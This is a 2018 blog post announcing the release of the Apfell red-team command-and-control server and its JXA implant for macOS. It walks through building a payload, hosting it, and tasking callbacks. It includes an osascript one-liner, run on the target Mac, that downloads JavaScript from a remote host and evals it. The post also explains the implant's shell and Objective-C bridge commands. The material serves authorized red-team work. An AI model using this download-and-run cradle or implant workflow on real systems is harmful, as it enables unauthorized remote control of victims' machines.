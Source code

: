 ```yaml
---
title: 'Bare-Bones Apfell server code release'
date: 2018-07-04
permalink: /posts/2018/04/Bare-Bones-Apfell-server-code-release/
tags:
  - Mac
  - Red Teaming
  - Database
  - Postgres
  - Web
---
```

It's been a long time since my last post, but it's finally time for the bare-bones Apfell server code release. There will also be a drop of a bare-bones Apfell implant to go with it and an accompanying blog series coming soon talking about design decisions, future ideals, and updates.

I've added a few more components to the bare-bones release to round it out and make it at least somewhat usable. Specifically:
*  Payloads - JXA
   *  I created the ability to use the base JXA template, swap in your own callback interval and server/port
*  Attacks - Host File
   *  I created the ability for the server to spin off python subprocesses to host files with user defined directories and ports to server up the JXA implants
*  API - CommandLines
   *  I created a relatively simple way to display examples command lines and explanations for the RESTful interfaces exposed by the server
*  API - apfell-jxa help
   *  I added in a little bit of information about the different basic commands available in the jxa implant and what the differences are
   
Before I post the link for the apfell code, we should take one more walkthrough for how information flows between all the components.

You can pip install the requirements.txt document to get all of the necessary python libraries, then run the setup.sh script to install and setup the postgresql database.
Inside of the main __init__.py file, you'll find a few things for you to customize. Specifically, the db_user, db_pass, and server_ip address should all be updated for your environment.
Then, simply run `python server.py` and you're up and running!

Open up a browser and navigate to the ip:port you just specified. You won't have an account yet, so click `Click to Register!` and create an account. When you log in, you'll be welcomed by a screen like the following:
![alt text][apfell-welcome-screen]

Click over to payloads and JXA (this is currently the only payload available, but there will be more coming soon). Obfuscation is an example of something that's hopefully coming soon, but right now that checkbox does nothing. Fill out all of the fields and click `Create Payload` to create your first apfell-jxa payload.
Specify the callback host and port to be where you will end up hosting this file. We'll do that part next. I give you three possibilities for how to execute the file depending on how you plan on getting the payload over to the remote system. 
Apfell is a post-exploit system, so it's up to you to find the initial access vector, then you can start using this.
![alt text][apfell-create-jxa]

The next main step is to host this file somewhere. I have a lot of ideas for how to display this information and save it off, but it's not required for the initial bare-bones release. If you go to `Attacks-Host File`, you'll just see some basic information. The main way to work with this right now is through the RESTful API.
For our example, we already have Apfell running on port 80, so lets host this file on port 8080. It's pretty simple with the RESTful API:

`appy@ubuntu:~$ curl -X POST -d '{"port":8080, "directory": "/home/appy/Desktop/"}' http://localhost/api/v1.0/attacks/host_file`

We can confirm this is running either with another query or from the browser by hitting the API:
![alt text][apfell-view-web-servers]

Now, we can go over to the target macOS box, open up the Terminal.app, and run the following code:
`osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('HTTP://192.168.0.119/example.js')),$.NSUTF8StringEncoding)));"`

Now you can click over to `Operations -> Callbacks` and see our new callback!
![alt text][apfell-new-callback]

click on `Interact` to have a new tab pop up that you can select. You'll also notice when you select this tab that the box at the very bottom of the screen changed to reflect the information about the current tab. This is where you can submit tasks for the apfell-jxa implant.
For example, we can do a few different kinds of tasks, and they will illustrate the output format for us:
![alt text][apfell-tasking]

There are three types of operations for the current apfell-jxa implant - shell commands, javascript commands, and deepunwrapped javascript commands (these are the ones utilizing the ObjectiveC-JavaScript bridge). The last one is potentially the most powerful, but also the most confusing.
Using the ObjectiveC bridge, I called and ObjectiveC function to get the current list of names my host has. The `js` command can also run these commands, but if the resulting type is an ObjectiveC type, you'll have issues getting anything back. The unwrap (or deepunwrap) capabilities allows us to change standard datatypes
back from the ObjectiveC world to the normal world.

When you're done working with an implant, you can task it to exit and remove it from your screen. When you do this, I mark the implant as no longer active, but I keep it in the database. I do this so that when I write a report-generating feature, you'll still have all the info from all of the implants spawned during an operation, but you don't need to leave them cluttering up your view.
If you simply click the `Hide Tasks` option for an implant, all that does is hide the bottom level tab from your view so things are a little cleaner. 
`Keystrokes` and `Screenshots` are currently placeholders, but are on my laundry list of things to add to the next release.

If you want information on the RESTful command-line interactive capability of Apfell, go to `API -> CommandLines`. 
![alt text][apfell-api-cli]

Lastly, there's a little bit of documentation on the three commands for apfell-jxa that I already mentioned under the `API -> apfell-jxa help` dropdown.

Like I said, this is a pretty bare-bones release, but illustrates everything working together through the process of making a working framework.
Now, that was the UI and a little bit of the RESTful interface, but how does the information actually flow for all of that? It seems like a lot of moving pieces based on what I covered in the previous blog posts, but it's not too crazy.

When the implant initially calls home, it sends a RESTful HTTP POST request to the server with some basic information. This information is then stored in the postgres database. If you don't have the browser open, the process stops there until you manually query it with the other RESTful APIs.
If you do have the browser open though, when you go to the `Operations -> callbacks` page, you're opening a few websockets back to the database and requesting all of the relavent information about the current callbacks, and asking to be notified if there are any updates. 
When you do get a new callback, a callback checks for new tasking, or some status on your callback changes, this information gets pushed asynchronous from the database through the web server up to your browser. This same process happens with any tasking and responses. You can then interact with the dynamically generated information for that callback in the browser.
When you want to task the implant, your commands are actually just RESTful queries back to the server, which saves the information in the database. Two things now happen:
*  There was a change in the database, so that change is pushed back up to your browser. This means that I purposefully don't immediately display your tasking to you. I wait until it's confirmed by the database. I do this because of this next part.
*  Now that your tasking is in the database, the next time the implant checks in, it'll get that tasking and set the status of the task to in progress. This way you're only seeing what's registered in the database. This helps keep everybody on the same page with each other and the implants.

I didn't want a scenario when it looks like you task something on your screen, but somehow the connection to the server is dead. You'll only see the tasking if it's to the point where the implant can actually see it. Similarly, I keep track of the progress of tasking via the RESTful APIs. I don't display this to the user since it might be a bit much, but if you query the tasks via the API, you'll see that their status is either `submitted`, `processing`, or `completed`. 

See, not too crazy. The hardest part for me to learn has been all of the web aspects. I've never done web programming before, so trying to make sure that the interfaces you see for the callbacks is all dynamically generated and updated in real time without having to refresh has been an interesting challenge.
One of the next big things for me to tackle is getting proper authentication and encryption throughout the process. Since this was all new to me, I wanted to make sure I could get the basics down before starting to add complexity.


[apfell-welcome-screen]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-welcome-screen.JPG "Apfell Welcome Screen"
[apfell-create-jxa]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-create-jxa.JPG "Apfell Create JXA Payload"
[apfell-view-web-servers]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-view-web-servers.JPG "Apfell View Web Servers"
[apfell-new-callback]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-new-callback.JPG "Apfell New Callback"
[apfell-tasking]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-tasking.JPG "Apfell Tasking"
[apfell-api-cli]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-api-cli.JPG "Apfell API CLI Examples"
